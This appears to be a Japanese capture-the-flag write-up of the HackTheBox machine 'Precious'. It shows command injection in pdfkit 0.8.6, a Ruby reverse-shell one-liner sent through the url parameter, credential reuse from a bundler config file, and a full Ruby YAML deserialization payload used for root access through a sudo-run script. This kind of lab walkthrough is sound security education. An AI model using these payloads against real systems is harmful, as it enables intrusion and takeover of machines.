





## Precious
IP: 10.10.11.189  
Port: 22/tcp, 80/tcp  
Domain: precious.htb  
Sub Domain: no  
  
nmapでポートスキャンを行う。  
  

80番ポートが開いているので、ブラウザでアクセスを行う。  
  

Locationヘッダーに`http://precious.htb/`がセットされており、  
リダイレクトされるが、DNSに`precious.htb`に対応するIPアドレスが設定されていないため、  
アクセスができない。  
名前解決を行う順番は`/etc/nsswitch.conf`の`hosts:`に定義されており、  
私の環境では、ファイル(/etc/hosts) -> mdns4 -> dnsという順番である。  
`/etc/hosts`にドメイン`precious.htb`に対応するIPアドレス`10.10.11.189`を設定する。  
再度、ブラウザからアクセスしてみる。


入力フォームに適当な値を入れSubmitをすると、  
urlパラメータに乗せられてサーバーにurlを届けるみたい。  

自分の環境でWebサーバーを建てて、urlに自分のipアドレスを入れてみる。  


返答が返ってきたと同時に、PDfファイルがダウンロードされた。  
ファイルを開く前に私は`string`コマンドや`file`コマンドを実行して、  
中身の構造を調べる習慣があるので実行する。  


気になる記述がある。  
==pdfkit v0.8.6==  
ソフト名やバージョンの記述を見つけたら、既知の脆弱性が存在しないかを調べる。  
https://security.snyk.io/vuln/SNYK-RUBY-PDFKIT-2869795  
pdfkitパッケージのバージョンが`<0.8.7.2 `の場合に、URLが適切にサイタイジングされていないため、  
コマンドインジェクションの脆弱性が存在するらしい。  

Exploit Codeを探すと、以下のような形で行うらしい。  
```
PDFKit.new("http://example.com/?name=#{'%20`sleep 5`'}").to_pdf # 5 seconds wait... 
```
なので、以下のような形でurlパラメータにセットしてリバースシェルを狙う。  
```
%20` ruby -rsocket -e'spawn("sh",[:in,:out,:err]=>TCPSocket.new("ip",port))'`
```
`ruby`ユーザーでリバースシェルを獲得できた。  


安定なシェルを行うため、`ssh-keygen`を実行し、秘密鍵を自分の環境にコピーしSSH接続を行う。  
探索していくと、rubyユーザーのホームディレクトリの隠しディレクトリに`config`というファイルを見つける。  
この`config`ファイルというのは、Rubyのバージョン管理ツールである`bundler`で使用される設定ファイルである。  
中身を見ると、`user:password`の形で保存されており、この資格情報を使いhenryユーザーにログインできそうである。  
  


資格情報を使い、henryユーザーにログインを行う。  
ここで`user.txt`のuserフラグをゲットすることができる。  

続いて権限昇格を行うため、  
SUIDの設定不備を利用したものや、cronを利用したものなどたくさん存在する。  
詳しくはこちら(https://book.hacktricks.xyz/linux-hardening/privilege-escalation)  

そして、`sudo -l`の結果でroot権限で特定のコマンドを実行することが可能な設定がされているのを見つける。  
`sudo`コマンドの`-l`オプションというのは、sudoを実行するユーザーに許可されているコマンドを一覧表示するというものだ。  
`/opt/update_dependencies.rb`のRubyファイルを見てみると、  
```
# Compare installed dependencies with those specified in "dependencies.yml"
require "yaml"
require 'rubygems'

# TODO: update versions automatically
def update_gems()
end

def list_from_file
    YAML.load(File.read("dependencies.yml"))
end

def list_local_gems
    Gem::Specification.sort_by{ |g| [g.name.downcase, g.version] }.map{|g| [g.name, g.version.to_s]}
end

gems_file = list_from_file
gems_local = list_local_gems

gems_file.each do |file_name, file_version|
    gems_local.each do |local_name, local_version|
        if(file_name == local_name)
            if(file_version != local_version)
                puts "Installed version differs from the one specified in file: " + local_name
            else
                puts "Installed version is equals to the one specified in file: " + local_name
            end
        end
    end
end
```
と記述されており、中でも`YAML.load(File.read("dependencies.yml"))`のコードに不備が存在する。  
YAMLによるDeserializationの欠陥があり、以下のPayloadでコマンドを実行することができる。  
参考(https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Insecure%20Deserialization/Ruby.md)
```
---
- !ruby/object:Gem::Installer
    i: x
- !ruby/object:Gem::SpecFetcher
    i: y
- !ruby/object:Gem::Requirement
  requirements:
    !ruby/object:Gem::Package::TarReader
    io: &1 !ruby/object:Net::BufferedIO
      io: &1 !ruby/object:Gem::Package::TarReader::Entry
         read: 0
         header: "abc"
      debug_output: &1 !ruby/object:Net::WriteAdapter
         socket: &1 !ruby/object:Gem::RequestSet
             sets: !ruby/object:Net::WriteAdapter
                 socket: !ruby/module 'Kernel'
                 method_id: :system
             git_set: <command>
         method_id: :resolve
```

`YAML.load(File.read("dependencies.yml"))`というように、`dependencies.yml`ファイルを読み込むので、  
先程のPayloadの`git_set`に`cat /root/root.txt > /home/henry/output`というようにしてrootフラグをゲットした。  
